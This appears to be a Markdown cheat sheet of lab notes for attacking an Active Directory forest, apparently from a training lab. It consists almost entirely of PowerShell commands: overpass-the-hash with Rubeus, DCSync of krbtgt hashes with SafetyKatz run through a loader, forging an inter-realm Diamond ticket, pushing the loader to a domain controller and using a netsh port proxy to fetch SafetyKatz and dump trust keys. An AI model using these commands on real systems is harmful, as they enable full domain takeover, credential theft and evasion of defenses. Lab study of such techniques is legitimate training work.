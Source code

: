#### OPtH + Obtain krbtgt hash
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

Obtain Domain Controllers SID of parent domain for interrealm Diamond ticket
```powershell
Get-DomainGroup -Identity "Domain Controllers" -domain moneycorp.local
```

Forge interrealm Diamond ticket using the DC identity 
> **Note:** `/sids` = (Domain Controllers SID), (Enterprise Domain Controllers -  S-1-5-9 )
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Run DCsync on parent domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

> **Note:** Can only access resources that were explicitly shared with you

Across external trusts - OPtH and obtain trust key
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe

winrs -r:dcorp-dc 

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```


